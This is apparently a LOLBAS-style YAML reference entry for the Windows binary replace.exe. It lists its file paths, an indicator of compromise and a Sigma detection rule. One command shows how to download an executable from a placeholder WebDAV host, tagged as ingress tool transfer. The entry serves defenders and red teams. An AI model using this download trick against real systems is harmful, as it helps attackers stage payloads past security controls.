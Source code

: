 ```yaml
---
Name: Replace.exe
Description: Used to replace file with another file
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: replace.exe C:\Source\File.cab C:\Destination /A
    Description: Copy file.cab to destination
    Usecase: Copy files
    Category: Copy
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: replace.exe \\webdav.host.com\foo\bar.exe c:\outdir /A
    Description: Download/Copy bar.exe to outdir
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\replace.exe
  - Path: C:\Windows\SysWOW64\replace.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Replace.exe retrieving files from remote server
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_replace.yml
Resources:
  - Link: https://twitter.com/elceef/status/986334113941655553
  - Link: https://twitter.com/elceef/status/986842299861782529
Acknowledgement:
  - Person: elceef
    Handle: '@elceef'
---
```

